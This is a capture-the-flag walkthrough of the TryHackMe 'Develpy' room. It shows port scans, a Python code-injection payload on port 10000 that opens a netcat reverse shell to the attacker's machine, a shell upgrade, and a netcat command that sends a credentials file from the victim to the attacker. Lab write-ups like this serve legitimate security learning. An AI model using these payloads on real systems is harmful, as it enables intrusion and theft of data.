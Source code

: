 # Develpy

**Room Link:** [https://tryhackme.com/room/bsidesgtdevelpy](https://tryhackme.com/room/bsidesgtdevelpy)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (18) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/10000 - Python script

**Kali #1**

```
nc -lvnp 1337
```



**Kali #2**

```
nc $VICTIM 10000
__import__('os').system('nc -e /bin/bash $KALI 1337')
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```





## Netcat

**Kali(receiving)**

```
nc -l -p 1234 > credentials.png
```

**Victim(sending)**

```
nc -w 3 $KALI 1234 < credentials.png
```






























